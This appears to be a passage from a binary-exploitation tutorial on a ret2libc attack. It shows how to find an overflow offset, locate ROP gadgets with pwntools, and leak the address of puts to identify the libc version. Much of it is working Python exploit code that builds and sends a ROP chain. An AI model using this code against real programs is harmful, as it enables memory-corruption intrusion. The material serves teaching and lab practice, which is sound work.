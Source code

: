 Another way would be to use: `pattern create 1000` -- _execute until ret_ -- `pattern seach $rsp` from GEF.

## 2- Finding Gadgets

Now we need to find ROP gadgets inside the binary. This ROP gadgets will be useful to call `puts`to find the **libc** being used, and later to **launch the final exploit**.

```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```

The `PUTS_PLT` is needed to call the **function puts**.\
The `MAIN_PLT` is needed to call the **main function** again after one interaction to **exploit** the overflow **again** (infinite rounds of exploitation). **It is used at the end of each ROP to call the program again**.\
The **POP_RDI** is needed to **pass** a **parameter** to the called function.

In this step you don't need to execute anything as everything will be found by pwntools during the execution.

## 3- Finding libc library

Now is time to find which version of the **libc** library is being used. To do so we are going to **leak** the **address** in memory of the **function** `puts`and then we are going to **search** in which **library version** the puts version is in that address.

```python
def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))

    return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
    print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
    p.interactive()
```
